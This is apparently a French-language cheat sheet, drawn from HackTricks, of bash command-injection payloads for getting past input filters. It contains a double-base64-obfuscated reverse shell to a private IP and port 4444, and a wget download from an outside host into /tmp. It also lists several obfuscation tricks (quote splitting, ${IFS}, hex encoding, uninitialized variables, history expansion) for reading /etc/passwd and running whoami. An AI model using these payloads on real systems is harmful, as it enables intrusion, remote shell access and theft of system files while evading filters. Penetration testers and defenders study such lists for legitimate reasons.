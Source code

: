 Contournement des restrictions d'entrées utilisateurs.
# bash 
https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions 
## Caractère de substitution de nouvelles commandes
- ;
- |
- $()
- &&

## Double-Base64 
```bash
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
Résultat:
echo\WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

## Bypass Paths and forbidden words

### Question mark binary substitution
```bash
/usr/bin/p?ng # /usr/bin/ping
nma? -p 80 localhost # /usr/bin/nmap -p 80 localhost
```

### Concatenation
```bash
'p'i'n'g # ping
"w"h"o"a"m"i # whoami
\u\n\a\m\e \-\a # uname -a
ech''o test # echo test
ech""o test # echo test
bas''e64 # base64
/\b\i\n/////s\h
```

### Execution through $0
```bash
echo whoami|$0
```

### Uninitialized variables: A uninitialized variable equals to null (nothing)
```bash
cat$u /etc$u/passwd$u # Use the uninitialized variable without {} before any symbol
p${u}i${u}n${u}g # Equals to ping, use {} to put the uninitialized variables between valid characters
```


### Fake commands
```bash
p$(u)i$(u)n$(u)g # Equals to ping but 3 errors trying to execute "u" are shown
w`u`h`u`o`u`a`u`m`u`i # Equals to whoami but 5 errors trying to execute "u" are shown
```



### Concatenation of strings using history
```bash
!-1 # This will be substitute by the last command executed, and !-2 by the penultimate command
mi # This will throw an error
whoa # This will throw an error
!-1!-2 # This will execute whoami
```


### -- peut permettre d'ignorer les options placées après

## Contournement de restriction sur les espaces
### {form}
```bash
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test
```


# Put the command line in a variable and then execute it
```bash
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice
```

#  Other way, just change each space for ${IFS}
```bash
echo${IFS}test
```


# Using hex format
```bash
X=$'cat\x20/etc/passwd'&&$X
```


# New lines
```bash
p\
i\
n\
g # These 4 lines will equal to ping
```


# Undefined variables and !
```bash
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```


## Contournerment backslash et slash

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```


## Bypass with hex encoding
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```


## Contournement restriction ip
```text
Decimal IPs
127.0.0.1 == 2130706433
```


## Plus d'info sur la page hacktricks 


